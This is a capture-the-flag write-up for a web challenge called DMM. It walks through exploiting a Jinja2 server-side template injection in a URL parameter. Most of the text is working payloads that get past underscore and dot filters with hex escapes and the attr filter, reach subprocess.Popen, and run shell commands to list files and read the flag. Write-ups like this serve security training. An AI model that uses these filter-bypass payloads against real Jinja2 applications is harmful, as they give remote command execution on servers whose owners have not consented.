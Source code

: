 <h1>DMM</h1>
<h4>Description: 
<p>Please check it carefully</p>
<h4>Category: Web</h4>
<h4>Link: http://ssti.darkarmy.xyz/</h4>

Visiting the webpae just gives a message saying use to enter url. We can enter the url with parameter <b>/?url=</b> .
If we enter <b>/?url={{7*7}}</b>, we get the result on the page. This indicates that we can use SSTI but there are many filters on the website. <a href='https://medium.com/@nyomanpradipta120/jinja2-ssti-filter-bypasses-a8d3eb7b000f'>This article will help you with bypassing the filters</a> .
We can look for the modules available with us using this payload
<h4>{{().__class__.__base__.__subclasses__()}}</h4>
but we need to bypass the "_" and "." check. "_" is converted to \x5f and to get '.' we use attr, (foo|attr('bar') will be foo.bar)
<h4>{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()}}</h4>

We will get the list of classes, we need the subprocess.Popen class. You need the index of this class and use it to run commands.
So our general payload woud be
<h4>().__class__.__base__.__subclasses__()[407]('ls',shell=True,stdout=-1).communicate()[0]}}</h4>
So our actual payload would be
<h4>{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(407)('ls',shell=True, stdout=-1)|attr('communicate')()|attr('\x5f\x5fgetitem\x5f\x5f')(0)}}</h4>

Now we can get the flag with this payload, (change the command in the above payload to get the flag)
<h4>{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(407)('cat flag.txt',shell=True, stdout=-1)|attr('communicate')()|attr('\x5f\x5fgetitem\x5f\x5f')(0)}}</h4>

<h4>FLAG: darkCON{w0ww_y0u_ar3_sUp3er_h4ckeR_ggwpp_!!}</h4>
